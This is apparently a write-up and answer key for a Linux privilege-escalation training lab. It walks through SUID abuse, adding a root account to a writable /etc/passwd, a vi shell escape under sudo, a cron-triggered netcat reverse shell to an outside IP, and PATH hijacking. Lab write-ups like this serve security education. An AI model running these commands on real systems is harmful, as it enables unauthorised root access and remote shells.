 Task 3  Direction of Privilege Escalation
------------------------------------------

#### Privilege Tree:

![](pic1.png?raw=true)


**There are two main privilege escalation variants**:

***Horizontal privilege escalation***: This is where you expand your reach over the compromised system by taking over a different user who is on the same privilege level as you. For instance, a normal user hijacking another normal user (rather than elevating to super user). This allows you to inherit whatever files and access that user has. This can be used, for example, to gain access to another normal privilege user, that happens to have an SUID file attached to their home directory (more on these later) which can then be used to get super user access. [Travel sideways on the tree]

Contrary to vertical privilege escalation, lateral movement is a form of horizontal privilege escalation.


***Vertical privilege escalation (privilege elevation)***: This is where you attempt to gain higher privileges or access, with an existing account that you have already compromised. For local privilege escalation attacks this might mean hijacking an account with administrator privileges or root privileges. [Travel up on the tree]


Task4: Enumeration
-------------------

Everything are same as the [03.Linux PrivEsc] room...


1. First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.

2. What is the target's hostname?

--> polobox

3. Look at the output of /etc/passwd how many "user[x]" are there on the system?

```
$ cat -n /etc/passwd | grep -E user[0-9]
```
--> 8

4. How many available shells are there on the system?

```
$ cat /etc/shells
```
--> 4

5. What is the name of the bash script that is set to run every 5 minutes by cron?

--> autoscript.sh

6. What critical file has had its permissions changed to allow some users to write to it?

--> /etc/passwd

7. Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!


Task5:  Abusing SUID/GUID Files
--------------------------------

1. What is the path of the file in user3's directory that stands out to you?

--> /home/user3/shell

2. We can do this by running: "./shell"

```
$ ls -l shell
-rwsr-xr-x 1 root root 8392 Jun  4  2019 shell
```

3. Congratulations! You should now have a shell as root user, well done!


Task:6  Exploiting Writeable /etc/passwd
-----------------------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"


2. Having read the information above, what direction privilege escalation is this attack?

---> vertical

Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: `"openssl passwd -1 -salt [salt] [password]"`


3. What is the hash created by using this command with the salt, "new" and the password "123"?

--> $1$new$p7ptkEKU1HnaHpRtzNizS1

4. Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

--> `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

5. Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!

6. Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!


Task7:  Escaping Vi Editor
---------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"

2. Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

--> NOPASSWD

3. So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.

4. Now, type ":!sh" to open a shell!


Task8:  Exploiting Crontab
---------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

3. What is the flag to specify a payload in msfvenom?

--> -p

4. Create a payload using: "**msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R**"

--> Created payload: `mkfifo /tmp/vmpspfp; nc 10.8.112.253 8888 0</tmp/vmpspfp | /bin/sh >/tmp/vmpspfp 2>&1; rm /tmp/vmpspfp`


5. What directory is the "autoscript.sh" under?

--> /home/user4/Desktop

6. Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvnp 8888" and wait for our shell to land!

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!



Task 9  Exploiting PATH Variable
---------------------------------

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"


2. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

--> ls

3. Now we know what command to imitate, let's change directory to "tmp". 

4. Now we're inside tmp, let's create an imitation executable. The format for what we want to do is:

echo "[whatever command we want to run]" > [name of the executable we're imitating]

What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

--> `echo "/bin/bash" > ls`


5. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

--> chmod +x ls

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "**ls**" stored! We do this using the command "**export PATH=/tmp:$PATH**"

Note, this will cause you to open a bash prompt every time you use "**ls**". If you need to use "**ls**" before you finish the exploit, use "**/bin/ls**" where the real "**ls**" executable is.

Once you've finished the exploit, you can exit out of root and use "**export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH**" to reset the PATH variable back to default, letting you use "ls" again!


7. Now, change directory back to user5's home directory.

8. Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!



Task 10  Expanding Your Knowledge
----------------------------------

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.

- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)


